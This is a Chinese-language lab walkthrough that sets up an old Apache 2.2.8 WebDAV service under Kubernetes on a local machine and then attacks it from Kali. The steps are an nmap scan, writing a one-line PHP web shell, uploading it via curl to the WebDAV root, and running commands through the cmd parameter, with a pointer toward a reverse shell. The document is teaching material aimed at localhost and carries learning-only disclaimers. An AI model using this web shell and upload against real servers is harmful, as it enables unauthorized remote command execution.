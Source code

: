 # 簡單滲透作業示範

本示例展示如何利用 Docker 結合 Kubernetes（kubectl）在 Mac Ventura 上部署目標 Web 服務，並在 Kali VM 上利用 WebDAV 漏洞上傳一句話木馬 (shell.php) 進行滲透攻擊。  
**注意：** 此示例僅供學習用途，請勿在未經授權的情況下使用。

---

## 1. 部署目標服務（本機端 - Mac Ventura）

1. **部署服務：**  
   - 在終端機中執行以下指令，使用附檔 `k8s.yaml` 部署目標服務：
     ```bash
     kubectl apply -f k8s.yaml
     ```

2. **端口轉發：**  
   - 將服務的 80 號端口轉發到本機 10088 端口：
     ```bash
     kubectl port-forward service/service-internet 10088:80 -n namespace-double-nodes --address 0.0.0.0
     ```
     
3. **確認連線：**  
   - 在本機瀏覽器中訪問：
     ```
     http://127.0.0.1:10088
     ```
   - 若能看到 Apache httpd 2.2.8 與 DAV/2 標記的頁面，即表示服務正常運作。

---

## 2. 準備 Kali VM 進行滲透測試

1. **確認連線：**  
   - 在 Kali VM 終端機中執行：
     ```bash
     ping 127.0.0.1
     ```
   - ※ 注意：若 Kali 與本機位於不同網段，請使用正確的 IP。

2. **掃描服務：**  
   - 在 Kali VM 中執行 nmap 掃描確認服務版本：
     ```bash
     nmap -sV -p 10088 127.0.0.1
     ```
   - 結果應顯示 Apache httpd 2.2.8 ((Ubuntu) DAV/2)，表明 WebDAV 可能啟用且版本過舊，存在漏洞風險。

---

## 3. 製作木馬檔 (shell.php)（Kali VM）

1. **建立木馬檔：**  
   - 在 Kali VM 中執行：
     ```bash
     echo "<?php system(\$_GET['cmd']); ?>" > shell.php
     ```
   - 用文字編輯器檢查檔案，內容應為：
     ```php
     <?php system($_GET['cmd']); ?>
     ```

---

## 4. 利用 WebDAV 漏洞上傳木馬（Kali VM）

1. **嘗試上傳木馬：**  
   - 使用 curl 嘗試將 `shell.php` 上傳到目標服務（假設 WebDAV 允許匿名上傳）：
     ```bash
     curl -T shell.php http://127.0.0.1:10088/
     ```
   - 若上傳成功，`shell.php` 應位於服務的根目錄。

---

## 5. 驗證滲透攻擊（Kali VM）

1. **測試木馬：**  
   - 在 Kali VM 的瀏覽器中訪問以下 URL：
     ```
     http://127.0.0.1:10088/shell.php?cmd=whoami
     ```
   - 若返回執行結果（例如 Apache 的運行使用者），則表示成功利用漏洞執行命令。

---

## 6. 後續操作

- 一旦取得命令執行，便可進一步利用該木馬執行更多命令或反彈 shell。  
- 請根據目標環境調整攻擊策略與後續滲透步驟。

---

> **注意：**  
> 此示例僅供學習用途，請遵守相關法律與倫理規範，勿在未經授權的情況下進行滲透測試。

